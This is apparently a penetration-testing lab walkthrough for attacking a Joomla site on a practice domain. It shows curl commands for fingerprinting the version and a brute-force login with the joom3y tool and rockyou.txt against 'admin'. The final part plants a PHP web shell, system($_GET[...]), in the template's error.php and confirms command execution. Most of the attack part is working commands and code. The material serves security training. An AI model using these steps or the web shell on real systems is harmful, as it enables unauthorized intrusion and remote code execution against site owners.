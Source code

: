 
We can often fingerprint Joomla by looking at the page source, which tells us that we are dealing with a Joomla site.
```shell-session
curl -s http://dev.inlanefreight.local/ | grep Joomla

<meta name="generator" content="Joomla! - Open Source Content Management" />
```

The `robots.txt` file for a Joomla site will often look like this:
```shell-session
# If the Joomla site is installed within a folder
# eg www.example.com/joomla/ then the robots.txt file
# MUST be moved to the site root
# eg www.example.com/robots.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths.
# eg the Disallow rule for the /administrator/ folder MUST
# be changed to read
# Disallow: /joomla/administrator/
#
# For more information about the robots.txt standard, see:
# https://www.robotstxt.org/orig.html

User-agent: *
Disallow: /administrator/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/
```

We can also often see the telltale Joomla favicon (but not always). We can fingerprint the Joomla version if the `README.txt` file is present.
```shell-session
curl -s http://dev.inlanefreight.local/README.txt | head -n 5
```

In certain Joomla installs, we may be able to fingerprint the version from JavaScript files in the `media/system/js/` directory or by browsing to `administrator/manifests/files/joomla.xml`.

```shell-session
curl -s http://dev.inlanefreight.local/administrator/manifests/files/joomla.xml | xmllint --format -
```

Fingerprint Joomla version via XML (silent & clean)
```
curl -s http://app.inlanefreight.local/administrator/manifests/files/joomla.xml | grep -i '<version>'
```

Use [joom3y](https://github.com/dietcokesec/joom3y) for fast login brute-force
```
python3 main.py -u http://app.inlanefreight.local -w rockyou.txt -usr admin -v
```




If you receive an error stating "An error has occurred. Call to a member function format() on null" after logging in, navigate to "http://dev.inlanefreight.local/administrator/index.php?option=com_plugins" and disable the "Quick Icon - PHP Version Check" plugin. This will allow the control panel to display properly.

From here, we can click on `Templates` on the bottom left under `Configuration` to pull up the templates menu.

Next, we can click on a template name. Let's choose `protostar` under the `Template` column header. This will bring us to the `Templates: Customise` page.

Finally, we can click on a page to pull up the page source.
Let's choose the `error.php` page. We'll add a PHP one-liner to gain code execution as follows.
```php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
```
Once this is in, click on `Save & Close` at the top and confirm code execution using `cURL`.
```shell-session
curl -s http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id
```